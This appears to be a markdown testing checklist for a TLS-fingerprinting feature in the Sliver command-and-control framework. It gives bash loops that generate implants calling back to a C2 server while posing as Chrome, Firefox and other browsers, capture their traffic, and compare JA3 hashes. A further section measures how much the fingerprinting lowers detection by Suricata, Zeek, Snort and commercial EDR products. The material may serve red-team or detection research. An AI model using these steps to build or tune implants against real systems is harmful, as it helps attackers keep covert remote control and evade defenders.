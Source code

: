### **C2 Communication** ⏳
- [ ] Implant with TLS fingerprinting callbacks
- [ ] Implant without fingerprinting callbacks
- [ ] Session established
- [ ] Commands execute successfully

### **TLS Fingerprinting** ⏳
- [ ] Chrome fingerprint != Go default fingerprint
- [ ] JA3 hash matches known Chrome pattern
- [ ] Network traffic looks like Chrome
- [ ] No errors/warnings in logs

---

## 🔬 Advanced Testing (Optional)

### **1. Test All Browser Fingerprints**
```bash
for browser in chrome firefox ios android edge safari; do
  echo "Testing $browser fingerprint..."
  sliver > generate --http <server>:8888 --os linux --arch amd64 \
           --save /tmp/implant_$browser --tls-fingerprint --tls-browser $browser
  
  sudo tcpdump -i any -w /tmp/capture_$browser.pcap port 8888 &
  /tmp/implant_$browser &
  sleep 60
  pkill tcpdump
  
  python3 -m ja3 /tmp/capture_$browser.pcap > /tmp/ja3_$browser.txt
done

# Compare all JA3 hashes
for browser in chrome firefox ios android edge safari; do
  echo "=== $browser ==="
  cat /tmp/ja3_$browser.txt
done
```

### **2. EDR/NDR Testing**
If you have access to security tools:
- Suricata with ET rules
- Zeek with JA3 logging
- Snort with TLS rules
- Commercial EDR (CrowdStrike, SentinelOne, etc.)

Compare detection rates:
- Implant with TLS fingerprinting (should be lower)
- Implant without TLS fingerprinting (baseline)

### **3. Performance Testing**
```bash
# Measure callback time
time /tmp/implant_chrome  # With fingerprinting
time /tmp/implant_baseline # Without

# Measure binary size
ls -lh /tmp/implant_*

# Measure memory usage
ps aux | grep implant
```

---